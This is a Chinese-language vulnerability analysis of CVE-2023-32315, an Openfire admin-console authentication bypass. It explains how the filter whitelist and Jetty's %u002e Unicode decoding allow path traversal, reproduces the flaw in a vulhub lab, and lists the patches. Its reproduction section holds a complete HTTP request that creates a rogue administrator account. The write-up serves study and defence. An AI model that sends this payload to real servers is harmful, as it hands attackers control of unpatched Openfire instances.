 - [CVE-2023-32315 Openfire管理后台认证绕过](#cve-2023-32315-openfire管理后台认证绕过)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [AuthCheckFilter](#authcheckfilter)
    - [Unicode on Jetty](#unicode-on-jetty)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-32315 Openfire管理后台认证绕过
## 影响版本
4.7.4和4.6.7及以前
## 环境搭建
```yaml
version: '3'
services:
 web:
   image: vulhub/openfire:4.7.4
   ports:
    - "9090:9090"
```
## 漏洞原理
### AuthCheckFilter
OpenFire的权限校验主要通过Filter进行处理,在web.xml中,可以看到`AuthCheckFilter` ,对应的Class位于`org.jivesoftware.admin.AuthCheckFilter`,其中含有一个`excludes`参数,其中包括了一些不需要权限校验就能访问的资源路径,其中有一个值`setup/setup-*`的路径.
![](2023-07-07-15-58-30.png)  
来到`AuthCheckFilter`,可以看到处理逻辑就是将请求的url和excludes中的路径进行判断,如果符合`excludes`中的路径也就是不用权限就能访问的资源,就会继续进入下一个Filter,不然就会跳转到登录页面进行登录.  
![](2023-07-07-16-00-52.png)  
来到进行判断的方法`testURLPassesExclude`中,可以看到如果是以`*`结尾的白名单路径也就是`setup/setup-*`路径,如果以`setup/setup-`开头,且不含常见的路径穿越字符`..`,`%2e`的话那么就认为该路径命中了`setup/setup-*`这条规则,那么就不需要授权,返回为True.  
![](2023-07-07-16-03-20.png)  
### Unicode on Jetty  
正常来说无法通过`../`来进行路径穿越访问授权资源,然而OpenFire使用的Web服务器是Jetty,而Jetty支持对url进行unicode解码,这就导致可以用unicode编码的`%u002e%u002e`来代替`..`进行路径穿越访问到需要授权的资源.  
## 漏洞复现
![](2023-07-07-16-10-35.png)  
![](2023-07-07-16-10-49.png)
添加管理员:  
```http
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```

## 补丁
* 在 Openfire 4.6.8、4.7.5 和 4.8.0 中，路径遍历模式检测已得到改进，包括对非标准 URL 编码的检测，从而防止任何非 UTF-8 字符。
* 在 Openfire 4.6.8、4.7.5 和 4.8.0 中，引入了一个新的配置属性 （），用于控制在定义身份验证排除项的 URL 模式中使用通配符的允许性。adminConsole.access.allow-wildcards-in-excludes
* 在 Openfire 4.6.8、4.7.5 和 4.8.0 中，在定义身份验证排除项的 URL 模式中使用通配符的现有值已替换为不依赖于通配符的值。
* 在 Openfire 4.6.8、4.7.5 和 4.8.0 中，定义身份验证排除项的特定于安装程序的 URL 模式在设置过程完成后不再处于活动状态。
* 在 Openfire 4.8.0 中，嵌入式 Web 服务器将更新为不再支持 UTF-16 字符的非标准 URL 编码的版本。
## 参考  
https://github.com/advisories/GHSA-gw42-f939-fhvm  
https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md  
https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w